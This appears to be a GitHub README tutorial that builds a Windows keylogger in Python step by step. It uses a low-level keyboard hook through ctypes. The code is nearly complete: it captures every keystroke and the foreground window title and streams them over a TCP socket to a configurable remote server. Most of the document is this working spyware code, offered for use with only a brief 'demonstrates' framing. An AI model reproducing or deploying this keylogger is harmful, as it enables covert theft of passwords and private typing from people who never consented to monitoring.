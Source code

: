 # Keylogger with Python and Win32 API  

A keylogger captures keyboard input by setting up a low-level keyboard hook using the Windows API. This project demonstrates how to implement a keylogger in Python, sending the logged keys to a remote server.  

## References  

- [Hooks - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/winmsg/hooks)  
- [GetWindowTextA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getwindowtexta)  
- [GetWindowTextLengthA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getwindowtextlengtha)  
- [GetKeyState - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeystate)  
- [GetKeyboardState - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeyboardstate)  
- [ToAscii - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-toascii)  
- [CallNextHookEx - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-callnexthookex)  
- [SetWindowsHookExA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)  
- [GetMessageA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getmessagea)  
- [HOOKPROC - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nc-winuser-hookproc)  
- [KBDLLHOOKSTRUCT - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-kbdllhookstruct)  
- [GetForegroundWindow - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getforegroundwindow)  
- [ctypes CFUNCTYPE - Python Documentation](https://docs.python.org/3/library/ctypes.html#ctypes.CFUNCTYPE)  


## Overview of Hooks  

Per microsoft:  

_A point in the system message-handling mechanism where an application can install a subroutine to monitor the message traffic in the system and process certain types of messages before they reach the target window procedure._

This program leverages the `WH_KEYBOARD_LL` hook type to monitor low-level keyboard input events.  


## Building the script

__Imports and Constants__

The script begins by importing the necessary modules and defining constants related to the Windows API.  

```python
import sys
import socket
from ctypes import *
from ctypes import wintypes
```

The constants and types include:  

- **`WH_KEYBOARD_LL`**: Installs a hook procedure to monitor low-level keyboard events.  
- **`WM_KEYDOWN`**: Indicates a key has been pressed.  
- **`HOOKPROC`**: Defines the callback function type used with hooks.  
- **`WM_RETURN`**: Represents the Enter/Return key on the keyboard.  
- **`WM_SHIFT`**: Represents the Shift key, used to modify key inputs such as uppercase letters or symbols.  
- **`lpKeyState`**: The 256-byte array that receives the status data for each virtual key.


```python
user32 = windll.user32
lpKeyState = wintypes.BYTE * 256

IP_ADDR = "127.0.0.1"  # change this line
PORT = 9001            # change this line.

LRESULT = c_long
WH_KEYBOARD_LL = 13
WM_KEYDOWN = 0x0100
WM_RETURN = 0x0D
WM_SHIFT = 0x10

HOOKPROC = CFUNCTYPE(
    LRESULT,
    wintypes.INT,
    wintypes.WPARAM,
    wintypes.LPARAM
)
```

__Windows API Function Definitions__

To interact with the Windows API, the script declares and configures API functions such as `GetWindowTextA`, `CallNextHookEx`, and `GetMessageA`. Each function's argument types and return types are explicitly specified using `ctypes` for type safety and correct behavior.

```python
GetWindowTextA = user32.GetWindowTextA
GetWindowTextA.argtypes = (
    wintypes.HANDLE,
    wintypes.LPSTR,
    wintypes.INT
)
GetWindowTextA.restype = wintypes.INT

# [...]
```

Similarly, other functions such as `GetForegroundWindow`, `SetWindowsHookExA`, `GetKeyState`, and `ToAscii` are also defined.  

__Low-Level Hook Structure__

The `KBDLLHOOKSTRUCT` structure stores information about a low-level keyboard input event, such as the virtual key code, scan code, and additional flags. This structure is populated for each intercepted keyboard event.  

```python
class KBDLLHOOKSTRUCT(Structure):
    _fields_ = [
        ("vkCode", wintypes.DWORD),
        ("scanCode", wintypes.DWORD),
        ("flags", wintypes.DWORD),
        ("time", wintypes.DWORD),
        ("dwExtraInfo", wintypes.DWORD)
    ]
```
__Get Foreground Process__

The `get_fgproc` function identifies the title of the currently active window, allowing us to associate logged keystrokes with the application in focus. It uses `GetForegroundWindow` to obtain a handle to the focused window, determines the title length using `GetWindowTextLengthA`, and retrieves the title with `GetWindowTextA`. The resulting string represents the window's title, which can be logged alongside captured keystrokes for context.

```python
def get_fgproc():
    hwnd = user32.GetForegroundWindow()
    length = user32.GetWindowTextLengthA(hwnd)
    buf = create_string_buffer(length + 1)
    user32.GetWindowTextA(hwnd, buf, length + 1)
    return buf.value
```

__Hook Callback Function__

The `hook_func` function is the core of the keylogger, processing each keyboard event. It checks for changes in the active window using `get_fgproc`. When a new window is detected, the function logs its title. The `last` variable tracks the previously active window, ensuring only new titles are sent to the server.

By interacting with the `lParam` parameter, the function identifies the key pressed and passes the event to the next hook in the chain using `CallNextHookEx`.

```python
def hook_func(nCode, wParam, lParam):
    global last
    if last != get_fgproc():
        last = get_fgproc()
        msg = "\n[!] Last foreground process -> {}\n".format(last.decode("latin-1"))
        s.send(msg.encode("latin-1"))
```

__Capturing and Logging Keystrokes__

Within `hook_func`, key presses are captured using the `KBDLLHOOKSTRUCT` structure. The key's virtual code and state are processed to determine the corresponding character using `ToAscii`. This function translates virtual key codes into ASCII characters, respecting the current keyboard layout and state.  


```python
    if wParam == WM_KEYDOWN:                             # Check if the event is a key press
        keyboard = KBDLLHOOKSTRUCT.from_address(lParam)  # Parse key details from lParam
        state = (wintypes.BYTE * 256)()                  # Create a buffer for the keyboard state
        user32.GetKeyboardState(byref(state))            # Retrieve the current keyboard state
        buf = (c_ushort * 1)()                           # Buffer for the resulting character
        n = user32.ToAscii(                              # Convert virtual key to ASCII
            keyboard.vkCode,
            keyboard.scanCode,
            state,
            buf,
            0
        )

        if n > 0:                             # Check if a character was successfully converted
            if keyboard.vkCode == WM_RETURN:  # Handle the Enter key
                s.send(b"\n")
            else:
                msg = "{}".format(string_at(buf).decode("latin-1"))  # Decode the character
                s.send(msg.encode("latin-1"))                        # Send the character to the server

    return user32.CallNextHookEx(  # Pass the event to the next hook
        hook,
        nCode,
        wParam,
        lParam
    )
```


__Main Function__

The main function initializes the keylogger. It establishes a TCP connection with the server, setting up a socket for communication. Using the `SetWindowsHookExA` function, it installs a low-level keyboard hook (`WH_KEYBOARD_LL`) that invokes `hook_func` on each keyboard event. Finally, `GetMessageA` enters a message loop to process events until the program is terminated.

```python
if __name__ == "__main__":
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # Create a TCP socket
        s.connect((IP_ADDR, PORT))                             # Connect to the remote server

        last = None                     # Track the last active window
        callback = HOOKPROC(hook_func)  # Define the hook callback

        hook = user32.SetWindowsHookExA(  # Install the keyboard hook
            WH_KEYBOARD_LL,
            callback,
            0,
            0
        )

        user32.GetMessageA(  # Enter the event processing loop
            byref(wintypes.MSG()),
            0,
            0,
            0
        )
    except:
        sys.exit(1)  # Exit on error
```

## Example Output

![demo](https://github.com/user-attachments/assets/bbdd1602-330d-484c-88cf-610a41189ccb)

